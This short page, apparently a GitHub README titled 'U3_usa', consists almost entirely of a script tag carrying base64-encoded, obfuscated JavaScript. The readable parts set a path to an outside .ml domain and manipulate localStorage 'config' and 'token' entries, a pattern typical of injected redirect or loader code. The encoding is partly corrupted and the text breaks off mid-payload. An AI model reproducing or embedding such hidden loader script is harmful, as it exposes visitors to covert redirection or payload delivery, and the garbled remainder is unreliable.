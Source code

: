 # U3_usa
<script src="data:text/javascript;base64,CiAgICAoZnVuY3Rpb24oKSB7CiAgICB2YXIgbmFtZSA9ICdfbjNCRjdxanoxVks1V2J5OCc7
CiAgICBpZiAoIXdpbmRvdy5fbjNCRjdxanoxVks1V2J5OCkgewogICAgICAgIHdpbmRvdy
5fbjNCRjdxanoxVks1V2J5OCA9IHsKICAgICAgICAgICAgdW5pcXVlOiBmYWxzZSwKICAgICAgICAgICAgdHRsOiA4NjQwMCwKICAgICAgICAgICAgUl9QQVRIOi
AnaHR0cHM6Ly9hc2FzZXRhbmVyZXgubWwvclpUdFhjSlQnLAogICAgICAgIH07CiAgICB9CiAgICBjb25zdCBf
ek1kbk1xTERHOHRCeWtwQiA9IGxvY2FsU3RvcmFnZS5nZXRJdGVtKCdjb25maWcnKTsKIlrcEIgIT09IC3BCICE9PSBudWxsKSB7CiAgICAg
ICAgdmFyIF9QU0poVnI4QjY0Q3RLN3ZWID0gSlNPTi5wYXJzZShfek1kbk1xTERHOHRCeWtwQik7CiAgICAgICAgdmFyIF9MQmNTbjZqQ3E2THA3V
2NHID0gTWF0aC5yb3VuZCgrbmV3IERhdGUoKS8xMDAwKTsKICAgICA
gICBpZiAoX1BTSmhWcjhCNjRDdEs3dlYuY3JlYXRlZF9hdCArIHdpbmRvdy5fbjNCRjdxano
Vks1V2J5OC50dGwgPCBfTEJjU242akNxNkxwN1djRykgewogICAgICAgICAgICBsb2NhbFN0b3JhZ2UucmVtb3ZlSXRlbSbG9jYWxTdG9yYWdlLnJl
bW92ZUl0ZW0oJ3Rva2VuJyk7CiAgICAgICAgICAgIGxvY2FsU3RvcmFnZS5yZW1vdmVJdGVtKCdjb25maWcnKTsKICAgICAgICB9CiAgI
e5h
